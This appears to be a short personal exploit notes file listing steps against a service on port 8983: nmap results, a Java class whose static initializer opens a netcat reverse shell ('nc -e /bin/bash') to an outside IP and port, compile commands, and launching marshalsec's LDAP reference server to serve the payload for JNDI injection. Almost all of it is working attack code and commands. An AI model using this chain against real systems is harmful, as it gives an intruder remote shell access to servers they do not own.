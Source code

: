 command lists [need to move this file to desktop/sample_report/README.md]
----------------------------------------------
1. nmap result

```
22/tcp    open     ssh
111/tcp   open     rpcbind
8983/tcp  open     unknown
```

2. create exploit.java

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.4.5.89 9001");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```
3. create exploit.class with javac

`javac exploit.java -source 8 -target 8`

4. using java unmarshaller to run LDAP Reference Server

```bash
git clone https://github.com/mbechler/marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit"
```

